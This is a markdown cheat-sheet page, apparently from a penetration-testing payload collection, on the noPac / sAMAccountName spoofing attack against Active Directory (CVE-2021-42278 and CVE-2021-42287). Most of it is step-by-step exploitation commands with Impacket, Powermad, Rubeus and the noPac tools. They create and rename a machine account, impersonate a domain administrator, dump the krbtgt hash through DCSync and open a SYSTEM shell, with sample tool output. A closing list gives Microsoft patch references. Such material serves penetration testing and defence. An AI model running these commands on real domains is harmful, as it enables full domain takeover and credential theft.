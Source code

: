 # NoPAC / samAccountName Spoofing

During S4U2Self, the KDC will try to append a '\$' to the computer name specified in the TGT, if the computer name is not found.

An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '\$'.

For instance, suppose there is a domain controller with a sAMAccountName set to 'DC\$'.
An attacker would then create a machine account with the sAMAccountName set to 'DC'.

The attacker can then request a TGT for the newly created machine account.

After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC.

The attacker can then perform S4U2Self and request a ST to itself as any user.

Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid ST for the domain controller.

**Requirements**

* MachineAccountQuota > 0

**Check for exploitation**

* Check the MachineAccountQuota of the account

  ```powershell
  netexec ldap 10.10.10.10 -u username -p 'Password123' -d 'domain.local' --kdcHost 10.10.10.10 -M MAQ
  StandIn.exe --object ms-DS-MachineAccountQuota=*
  ```

* Check if the DC is vulnerable

  ```powershell
  netexec smb 10.10.10.10 -u '' -p '' -d domain -M nopac
  ```

**Exploitation**

1. Create a computer account

    ```powershell
    impacket@linux> addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

    powermad@windows> . .\Powermad.ps1
    powermad@windows> $password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
    powermad@windows> New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

    sharpmad@windows> Sharpmad.exe MAQ -Action new -MachineAccount ControlledComputer -MachinePassword ComputerPassword
    ```

2. Clear the controlled machine account `servicePrincipalName` attribute

    ```ps1
    krbrelayx@linux> addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

    powershell@windows> . .\Powerview.ps1
    powershell@windows> Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose
    ```

3. (CVE-2021-42278) Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$`

    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1224
    impacket@linux> renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
    ```

4. Request a TGT for the controlled machine account

    ```ps1
    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
    ```

5. Reset the controlled machine account sAMAccountName to its old value

    ```ps1
    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
    ```

6. (CVE-2021-42287) Request a service ticket with `S4U2self` by presenting the TGT obtained before

    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1202
    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
    ```

7. DCSync

    ```ps1
    KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
    ```

Automated exploitation:

* [cube0x0/noPac](https://github.com/cube0x0/noPac) - Windows

    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```

* [Ridter/noPac](https://github.com/Ridter/noPac) - Linux

  ```ps1
  python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0' -dc-ip 10.10.10.10 -use-ldap -dump
  ```

* [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)

    ```ps1
    $ python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                
    [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       
    [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```

* [ly4k/Pachine](https://github.com/ly4k/Pachine)

    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate administrator 'domain.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache
    $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'
    ```

**Mitigations**:

* [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
* [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
* [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
* [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
* [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
* [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)

## References

* [sAMAccountName spoofing - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
